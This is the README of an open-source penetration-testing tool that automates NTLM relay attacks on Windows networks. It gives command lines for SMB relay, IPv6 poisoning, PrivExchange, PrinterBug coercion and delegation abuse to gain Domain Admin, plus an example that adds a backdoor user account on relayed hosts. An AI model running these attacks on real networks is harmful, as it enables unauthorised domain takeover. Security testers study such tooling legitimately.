 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i <interface> argument is optional and specifies the interface to use for both 
Responder and mitm6. The -d <domain> is optional but suggested to use to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -sf <exchange_servers.txt>```

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -s <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -s <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```

## Delegation
Requires no domain credentials. Creates a new machine account, prints the username and password of the new machine 
account, and modifies its delegation rights. Upon success, please use getST.py from impacket to relay the delegation and
 gain access to the machine account.
 
 ```python autorelayx.py --delegate -dc <domain controller IP/hostname>```

## Domain controller delegation
Requires 2 domain controllers, at least one of which must be vulnerable to PrinterBug, and a domain user's credentials. 
Forces the PrinterBug-vulnerable domain controller to authenticate to the attacker which is relayed to the other domain 
controller. A machine account is created and given delegation rights. Upon success, user can use getST.py from impacket 
to impersonate a domain admin on the newly created machine.

 ```python autorelayx.py --delegate -dc <domain controller IP/hostname> -s <PrinterBug-vulnerable domain controller> -u <DOM/user:password>```